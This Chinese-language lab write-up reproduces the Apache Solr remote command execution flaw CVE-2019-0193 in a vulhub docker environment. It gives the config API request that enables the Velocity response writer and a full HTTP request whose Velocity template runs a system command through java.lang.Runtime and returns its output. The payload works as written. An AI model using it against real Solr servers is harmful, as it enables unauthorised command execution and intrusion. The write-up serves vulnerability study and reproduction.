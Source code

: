 ```yaml
---
description: CVE-2019-0193
---
```


# Apache Solr 远程命令执行漏洞（CVE-2019-0193）

以下内容来自「[是大方子-Apache Solr 远程命令执行漏洞（CVE-2019-0193）](https://note.youdao.com/ynoteshare1/index.html?id=59ba4b4d77327e0b12cfb9a67f114956&type=note)」，我看了他写的复现报告之后，认为写的还可以，并搭建环境完成了复现，具体内容如下：

## 0x00 准备工作

漏洞环境可以采用vulhub的github：

* [https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193)

漏洞原理与分析可以参考：

* [https://mp.weixin.qq.com/s/typLOXZCev\_9WH\_Ux0s6oA](https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA)
* [https://paper.seebug.org/1009/](https://paper.seebug.org/1009/)

## 0x01 Solr简介

Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；也可以通过Http Get操作提出查找请求，并得到XML格式的返回结果。

## 0x02 漏洞概述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。本环境测试RCE漏洞。  
  
漏洞影响范围：Apache Solr &lt;= 8.2.0，Apache Solr 5.x - 8.2.0，存在config API版本

## 0x03 漏洞环境

运行漏洞环境：

```text
docker-compose up -d
```

```bash
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问环境

```text
http://10.26.231.203:8983/solr/#/
```

访问test的配置文件

![](../../.gitbook/assets/image%20%288%29.png)

```text
http://10.26.231.203:8983/solr/test/config
```

## 0x04 漏洞复现

访问上述网址并抓包并修改发送方式为POST，然后利用s00py公布的poc修改向config发送json配置继续修改

```text
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

{% hint style="danger" %}
注意：图示这2个位置要修改
{% endhint %}

![](../../.gitbook/assets/image%20%286%29.png)

然后就可以进行RCE

```text
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 10.26.231.203:8983
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Connection: close
```

![](https://note.youdao.com/yws/public/resource/59ba4b4d77327e0b12cfb9a67f114956/xmlnote/6A6CE5A6CCFA4F589061DB43FAF99AC4/73795)

